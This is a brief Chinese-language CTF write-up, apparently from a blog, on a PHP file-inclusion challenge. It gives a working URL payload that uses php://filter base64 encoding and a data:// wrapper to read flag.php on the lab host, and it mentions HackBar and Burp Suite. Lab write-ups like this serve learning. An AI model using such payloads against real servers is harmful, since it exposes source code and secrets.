 真的好奇怪，我的php://input无论是在靶机还是在本机上都没办法实现

最后用data传递协议

http://61.147.171.105:56400?file1=php://filter/read=convert.base64-encode/resource=flag.php&file2=data://text/plain,hello ctf

base64解码后得到flag

总结一下：感觉可能是google上的hackbar发post包的时候有问题（找到问题是只能以键值形式发送），然后在firefox上下了max hackbar（感觉效果挺好）还可以配合bp截获包
